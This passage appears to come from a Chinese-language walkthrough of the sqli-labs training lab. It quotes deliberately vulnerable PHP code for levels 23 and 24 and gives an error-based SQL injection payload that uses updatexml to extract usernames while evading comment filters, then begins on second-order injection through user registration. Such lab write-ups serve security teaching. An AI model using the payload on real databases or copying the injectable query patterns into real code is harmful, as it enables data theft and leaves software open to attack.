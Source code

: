 ```php
        {
        echo '<font color= "#0000ff">';
        echo 'Your Login name:'. $row['username'];
        echo "<br>";
        echo 'Your Password:' .$row['password'];
        echo "</font>";
        }
        else 
        {
        echo '<font color= "#FFFF00">';
        print_r(mysql_error());
        echo "</font>";  
        }
}
        else { echo "Please input the ID as parameter with numeric value";}
```

过滤`#`，`--`

```
1'-updatexml(1,concat(0x7e,(select+username+from++users++limit+0,1),0x7e),1)+and+'1'='1
```

## less-24 二次注入

`login.php`

```php
function sqllogin(){
   $username = mysql_real_escape_string($_POST["login_user"]);
   $password = mysql_real_escape_string($_POST["login_password"]);
   $sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
//$sql = "SELECT COUNT(*) FROM users WHERE username='$username' and password='$password'";
   $res = mysql_query($sql) or die('You tried to be real smart, Try harder!!!! :( ');
   $row = mysql_fetch_row($res);
        //print_r($row) ;
   if ($row[1]) {
		return $row[1];
   } else {
		return 0;
   }
}
```

登录口有`mysql_real_escape_string`函数

该函数对特殊字符进行转义，不能进行注入

`new_user.php`

```php
if ($pass==$re_pass)
{
    # Building up the query........
    $sql = "insert into users ( username, password) values(\"$username\", \"$pass\")";
    mysql_query($sql) or die('Error Creating your user account,  : '.mysql_error());
    echo "</br>";
    echo "<center><img src=../images/Less-24-user-created.jpg><font size='3' color='#FFFF00'>";   
    //echo "<h1>User Created Successfully</h1>";
    echo "</br>";
    echo "</br>";
    echo "</br>";
    echo "</br>Redirecting you to login page in 5 sec................";
    echo "<font size='2'>";
    echo "</br>If it does not redirect, click the home button on top right</center>";
    header('refresh:5, url=index.php');
}
```